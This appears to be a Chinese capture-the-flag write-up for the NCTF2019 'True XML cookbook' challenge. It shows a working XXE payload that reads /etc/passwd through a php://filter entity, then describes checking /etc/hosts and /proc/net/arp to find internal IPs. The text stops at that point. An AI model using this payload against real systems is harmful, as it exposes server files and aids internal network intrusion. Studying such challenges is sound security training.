


# [NCTF2019]True XML cookbook

## 知识点

`xxe`

`内网探测`

## 解题

一个登录框,提示`xml`,登录抓包尝试`xxe`

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
<!ENTITY a SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
<user><username>&a;</username><password>123</password></user>
```

发现回显`/etc/passwd`文件内容`base64`编码后的值,读`flag`没有该文件,读一下敏感文件找信息,在`/etc/hosts`没找到内网,在`arp`表`/proc/net/arp`中找到`ip`






